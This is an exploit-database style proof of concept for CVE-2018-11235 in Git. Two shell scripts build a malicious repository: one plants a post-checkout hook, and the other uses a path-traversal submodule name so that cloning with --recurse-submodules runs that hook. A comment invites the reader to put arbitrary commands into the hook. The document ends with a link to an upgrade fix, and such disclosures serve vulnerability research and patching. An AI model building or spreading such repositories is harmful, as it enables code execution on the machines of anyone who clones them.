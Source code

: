 #CVE-2018-11235

# Exploit Title:  Git (code execution)
# Date: 2018-05-29
# Exploit Author: Jameel Nabbo
# Website: jameelnabbo.com >
# Vendor Homepage: https://github.com/git/git 
# CVE: CVE-2018-11235
 #Version:  <=2.17.1 
# Tested on Kali Linux
 
 
P0C:
 
Create two files:
pwned.sh: the file which will contain our commands to be executed 
commit.sh the fole which contain a normal build with a bit of calls to our pwned.sh file
 
add the follwing to Pwned.sh:
#!/bin/sh
cat << EOF
 
#here we can put our lovely commands
Exploited! : $(ifconfig)
 
EOF
 
#--------
 
Add the follwing to commit.sh file:
#!/bin/sh
 
set -e
 
repo_dir="$PWD/repo"
#change it to any other Repo
repo_submodule='https://github.com/JameelNabbo/SmartWorm'
 
git init "$repo_dir"
cd "$repo_dir"
git submodule add "$repo_submodule" pwned
mkdir modules
cp -r .git/modules/pwned modules
cp ../pwned.sh modules/pwned/hooks/post-checkout
git config -f .gitmodules submodule.pwned.update checkout
git config -f .gitmodules --rename-section submodule.pwned submodule.../../modules/pwned
git add modules
git submodule add "$repo_submodule"
git add SmartWorm
git commit -am pwned
echo "All done, now \`git clone --recurse-submodules \"$repo_dir\" dest_dir\`”
 
 
——————
Solution:
https://www.edwardthomson.com/blog/upgrading_git_for_cve2018_11235.html
